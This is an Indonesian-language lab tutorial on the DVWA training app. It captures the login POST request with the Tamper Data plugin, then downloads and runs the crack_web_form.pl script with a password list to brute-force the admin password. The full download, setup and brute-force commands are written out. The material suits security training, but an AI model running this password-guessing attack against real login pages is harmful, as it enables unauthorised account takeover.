

## LESSON 5

Inti dari Lesson 5 adalah implementasi Tamper Data untuk mengetahui Request HTTP POST DATA string DVWA supaya mengetahui password dari admin DVWA

**NOTE**
- IP yang digunakan adalah sesuai dengan IP tempat DVWA ter-deploy

### Langkah-langkah

**A. Konfigurasi Tamper Data**
1. Mengizinkan plugin Tamper Data


2. Buka DVWA

```
192.168.1.6/dvwa/login.php
```

Hasil yang akan didapat adalah:


3. Menyalakan Tamper Data


4. Setelah mengisi username dan password dan klik submit, akan muncul window **Tamper with request**, **Uncheck Continue Tampering?**, dan klik **Submit**


5. Stop Tamper Data


6. **Copy** record yang memiliki method **POST** ke dalam **Notepad**, **Notepad** dapat diakses lewat **Applications** -> **Wine** -> **Programs** -> **Accessories** -> **Notepad**


7. **Logout** DVWA


8. **Login** DVWA dengan menggunakan **Username** dan **Password** salah lalu **Copy** pesan **Login failed** ke dalam **Notepad**


9. **Save** ke dalam **root**


**B. Konfigurasi dan Menjalankan crack_web_form.pl**
1. Membuat **Directory**

```
mkdir /pentest/passwords/cwf
```



2. Download **crack_web_form.pl**, **save** ke dalam **/pentest/passwords/cwf**, dan **extract** file tersebut.

```
http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson5/cwf.tar.gz
```

```
tar xovfz cwf.tar.gz
chmod 700 crack_web_form.pl
```

Hasil yang akan didapat adalah:


3. Crack Web Form Functionality

```
./crack_web_form.pl -help
```

Hasil yang akan didapat adalah:


4. Gunakan Crack Web Form

```
./crack_web_form.pl -U admin -P password.txt -http "http://192.168.1.103/dvwa/login.php" -data "username=USERNAME&password=PASSWORD&Login=Login" -M "Login failed"
```

Hasil yang akan didapat adalah:


5. Melihat Hasil dari Crack Web Form


### Kesimpulan Lesson 5

Menggunakan Crack Web Form dapat meretas dan mengetahui **Username** dan **Password** dari DVWA
